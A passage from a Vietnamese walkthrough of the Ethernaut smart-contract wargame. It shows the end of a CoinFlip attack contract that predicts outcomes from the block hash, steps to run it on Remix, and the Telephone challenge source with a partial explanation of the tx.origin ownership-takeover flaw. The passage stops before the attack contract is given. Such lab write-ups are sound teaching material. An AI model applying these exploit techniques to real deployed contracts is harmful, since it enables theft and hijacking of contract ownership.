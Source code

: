 ```js
    lastHash = blockValue;
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    return coinFlip == 1 ? true : false;
  }

  function flip() public {
    bool guess = calc();
    cf.flip(guess);
  }
}
```

- Compile contract này và chạy function flip *bằng tay* 10 lần trên Remix, nhớ để Gas Limit  và Gas Price cao một chút để tránh bị *out of gas* và để transaction được confirm nhanh hơn.

- Trên chrome console, kiểm tra lại số lần liên tiếp đoán đúng, 10 lần là được

```js
await contract.consecutiveWins().then(x => x.toNumber())
```

- Submit & all done!

## 4. Telephone

**Nhiệm vụ**: chiếm quyền owner

```js
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Telephone Solution

- Bạn cần hiểu rõ một điều `tx.origin` khác với `msg.sender`.
- Nếu bạn gọi function từ một contract A, trong function có có gọi function của contract B, thì `tx.origin` là địa chỉ của bạn còn `msg.sender` là contract A address.
- Kẻ xấu có thể lợi dụng điều này để tấn công một contract bằng cách sử dụng một contract khác để tấn công.
- Trong bài này, ta sẽ viết thêm một contract **Attack** như sau:
